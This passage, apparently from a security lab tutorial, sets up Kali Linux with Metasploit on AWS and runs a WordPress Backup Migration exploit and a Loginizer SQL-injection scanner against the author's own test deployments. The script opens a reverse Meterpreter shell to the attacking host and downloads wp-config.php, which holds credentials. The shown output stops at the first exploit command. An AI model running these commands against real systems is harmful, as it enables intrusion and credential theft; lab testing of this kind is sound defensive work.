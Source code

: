 ```bash
AWS_EC2_KALI_LINUX_PUBLIC_IP=$(aws ec2 describe-instances --filters "Name=tag:Solution,Values=${SOLUTION_KALI}" --query "Reservations[].Instances[].PublicIpAddress" --output text)
ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "kali@${AWS_EC2_KALI_LINUX_PUBLIC_IP}" 'curl -Ls https://github.com/ruzickap.keys >> ~/.ssh/authorized_keys'
scp -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" "kali@${AWS_EC2_KALI_LINUX_PUBLIC_IP}":~
ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "kali@${AWS_EC2_KALI_LINUX_PUBLIC_IP}" << EOF
touch ~/.hushlogin
sudo snap install metasploit-framework
msfdb init
EOF
```

![Metasploit](https://user-images.githubusercontent.com/63872951/187396388-1c15dd6e-95a0-438a-ada5-71e49ff17f4e.jpg){:width="500"}
_Metasploit logo_

Run the Metasploit Framework and exploit the vulnerability in all three
environments (ECS, EC2 with Docker, and a standalone EC2 instance):

```bash
# shellcheck disable=SC2087
for PUBLIC_IP in ${COPILOT_PUBLIC_IP} ${AWS_EC2_CONTAINER_PUBLIC_IP} ${AWS_EC2_PUBLIC_IP}; do
  echo "*** ${PUBLIC_IP}"
  ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "kali@${AWS_EC2_KALI_LINUX_PUBLIC_IP}" << EOF2
cat << EOF | msfconsole --quiet --resource -
use exploit/multi/http/wp_backup_migration_php_filter
set rhost ${PUBLIC_IP}
set lhost ${AWS_EC2_KALI_LINUX_PUBLIC_IP}
set lport 443
run --no-interact
sessions --interact 1 --meterpreter-command ps --meterpreter-command sysinfo \
  --meterpreter-command "download /bitnami/wordpress/wp-config.php"
use auxiliary/scanner/http/wp_loginizer_log_sqli
set rhost ${PUBLIC_IP}
set verbose true
run
exit -y
EOF
EOF2
done
```

The output below was shortened, showing only the attack against WordPress on
Amazon ECS:

```console
*** http://wordpr-Publi-BpPriJDxXb94-436714884.eu-central-1.elb.amazonaws.com

 ** Welcome to Metasploit Framework Initial Setup **
    Please answer a few questions to get started.



 ** Metasploit Framework Initial Setup Complete **

Running the 'init' command for the database:
Existing database found, attempting to start it
Starting database at /home/kali/snap/metasploit-framework/common/.msf4/db...server starting
success
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
[*] Processing stdin for ERB directives.
resource (stdin)> use exploit/multi/http/wp_backup_migration_php_filter
```